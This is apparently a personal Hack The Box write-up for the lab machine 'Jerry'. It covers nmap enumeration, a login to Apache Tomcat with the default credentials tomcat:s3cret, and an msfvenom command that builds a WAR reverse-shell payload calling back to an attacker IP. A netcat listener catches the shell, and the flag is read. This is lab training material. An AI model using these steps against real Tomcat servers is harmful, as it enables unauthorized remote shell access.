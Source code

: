 ```yaml
---
layout: default
title: JERRY
description: by Hack The Box
---
```


<h3 align="center">

</h3>

<br><br>

# Enumeration

1. Nmap

   ```
   └─$ nmap -T4 10.10.10.95 -A -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 17:45 EST
   Nmap scan report for 10.10.10.95
   Host is up (0.031s latency).
   Not shown: 999 filtered tcp ports (no-response)
   PORT     STATE SERVICE VERSION
   8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
   |_http-favicon: Apache Tomcat
   |_http-title: Apache Tomcat/7.0.88
   |_http-open-proxy: Proxy might be redirecting requests
   |_http-server-header: Apache-Coyote/1.1

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
   ```

2. So port 8080 is open, its a tomcat webserver. Opening the website using http://10.10.10.95:8080/ we get redirected to the tomcat website. I tried to login with default username/password of admin:admin by click server status but it failed... but wait!!!

# FootHold

3. After a failed attemp in logging in as admin:admin, it took me to a 404 page saying that the default password for tomcat is username: tomcat and password: s3cret . I was like ok, I'll try that.
4. Wow! that was the easiest foothold ever!
5. Now navigating around the website I found that I can upload a file, great!
6. Googling for WAR file type reverse shell I came to a github page that has a one-liner to create a payload using MSFVENOM
   ```
   msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war > exploit.war
   ```
   - Change the LHOST and LPORT according to your IP and listener port
   - This has to be done from a root user, doing the command even with SUDO doesnt cut it, not sure why.
7. Now, let me setup a listener with netcat
   ```
   nc -nvlp 4444
   ```
8. Upload the file. Then it will show in the list of applications. Click the upload file and this will take you to a blank page but will also activate your reverse shell
9. From here we just traverse the directory. Found a flag inside C:\Users\Administrator\Desktop\flag
10. Something extra I had to do is, I had to do this
    ```
    cp flags flag.txt
    ```
    then
    ```
    type flag.txt
    ```
11. Learned something new there. Both user and root flag is in that one flags file.

<br><br>

# Reference

1. https://www.exploit-db.com/exploits/42966
2. https://superuser.com/questions/434870/what-is-the-windows-equivalent-of-the-unix-command-cat
3. https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
4. @Butchy - for helping me realise to use ROOT rather keep bashing my head using SUDO

<br><br>

[back to HOME](./)
